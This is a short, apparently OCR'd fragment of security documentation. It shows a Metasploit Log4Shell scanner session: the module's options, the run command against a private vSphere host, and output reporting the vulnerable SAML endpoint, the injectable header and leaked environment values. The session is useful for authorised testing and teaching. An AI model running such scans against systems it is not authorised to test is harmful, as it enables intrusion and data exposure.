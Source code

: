 ```shell
                                                                                   SL23 are auto-negotiate) (Accepted: Auto, TLS, SSL23, SSL3
                                                                                   , TLS1, TLS1.1, TLS1.2)
   ShowProgress                       true                               yes       Display progress messages during a scan
   ShowProgressPercent                10                                 yes       The interval in percent that progress should be shown
   UserAgent                          Mozilla/5.0 (iPad; CPU OS 15_3_1   no        The User-Agent header to use for all requests
                                      like Mac OS X) AppleWebKit/605.1.
                                      15 (KHTML, like Gecko) Version/15
                                      .2 Mobile/15E148 Safari/604.1
   VERBOSE                            false                              no        Enable detailed status messages
   WORKSPACE                                                             no        Specify the workspace for this module

msf6 auxiliary(scanner/http/log4shell_scanner) > exploit

[+] 192.168.1.1:443     - Log4Shell found via /websso/SAML2/SSO/vsphere.local?SAMLRequest= (header: X-Forwarded-For) (os: Linux 4.19.191-1.ph3 unknown, architecture: amd64-64) (java: Azul Systems, Inc._1.8.0_291) 
(leaked: ${java:hw}=processors: 4, architecture: amd64-64  ${env:PATH}=/usr/local/bin:/usr/local/sbin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/java/jre-vmware/bin:/opt/vmware/bin)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[*] Auxiliary module execution completed
```
     

## Tips and Tricks: Using SMB pipes in MSF

